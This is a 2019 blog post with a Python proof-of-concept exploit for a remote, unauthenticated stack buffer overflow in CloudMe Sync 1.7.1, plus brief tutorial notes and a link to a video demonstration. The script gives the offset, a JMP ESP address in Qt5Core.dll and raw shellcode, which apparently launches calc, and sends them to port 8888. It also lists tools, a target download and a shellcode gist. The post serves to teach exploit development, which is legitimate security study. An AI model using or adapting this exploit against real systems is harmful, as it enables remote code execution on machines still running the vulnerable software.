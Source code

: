 ```yaml
---
author: Haquor
date: 2019-07-22 11:59:59+00:00
draft: false
title: 'CloudMe Buffer Overflow Exploit'
type: post
url: /2019/07/22/video-buffer-overflow-exploit/
---
```


{{< youtube id="r5b87XVRnJo" autoplay="false" >}}

<!--more-->


    import socket, struct

    print 'CloudMe Sync v.1.7.1'
    print 'Unauthenticated Remote Buffer Overflow'
    # 'Author: Haquor'
    # 'Discovery: hyp3rlinx'

    ip = 'localhost'
    port = 8888

    buffer = 'N' * 1036
    buffer += struct.pack('<L', 0x688dd4ed) #JMP ESP {PAGE_EXECUTE_READ} [Qt5Core.dll]
    buffer += ("\x31\xF6\x56\x64\x8B\x76\x30\x8B\x76\x0C\x8B\x76\x1C\x8B"
    "\x6E\x08\x8B\x36\x8B\x5D\x3C\x8B\x5C\x1D\x78\x01\xEB\x8B"
    "\x4B\x18\x8B\x7B\x20\x01\xEF\x8B\x7C\x8F\xFC\x01\xEF\x31"
    "\xC0\x99\x32\x17\x66\xC1\xCA\x01\xAE\x75\xF7\x66\x81\xFA"
    "\x10\xF5\xE0\xE2\x75\xCF\x8B\x53\x24\x01\xEA\x0F\xB7\x14"
    "\x4A\x8B\x7B\x1C\x01\xEF\x03\x2C\x97\x68\x2E\x65\x78\x65"
    "\x68\x63\x61\x6C\x63\x54\x87\x04\x24\x50\xFF\xD5\xCC")

    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((ip, port))
    sock.send(buffer)

    print 'Sending the BOF exploit...'

## [About the software](https://github.com/Haquor/cloudme-exploit#about-the-software)







Just a quick PoC to go along with YouTube [demonstration](https://youtu.be/r5b87XVRnJo).







Crafting a buffer overflow exploit is way easier than it looks. In 
this video, I'll show you how to write an exploit for stack-based buffer
 overflow using the JMP ESP instruction.
Using a vulnerable CloudMe executable and Immunity Debugger we can 
hijack the program flow to run our custom shellcode.







Required Software





  * Python (IDLE, python 2.7)  * Metasploit Framework  * Dynamic Analyzer (Debugger): Immunity on Windows, gdb on linux





Target
- [CloudMe Sync 1.7.1](https://cloudme.en.uptodown.com/windows/download/50719)







To check if file has DEP/ALSR/SafeSEH enabled on Windows use [Get-PESecurity Powershell script](https://github.com/NetSPI/PESecurity)







CVE: [https://www.exploit-db.com/exploits/44027](https://www.exploit-db.com/exploits/44027)







Shellcode: [https://gist.github.com/Haquor/30b333ce61ca263ffa3a6d53315cd4d3](https://gist.github.com/Haquor/30b333ce61ca263ffa3a6d53315cd4d3)



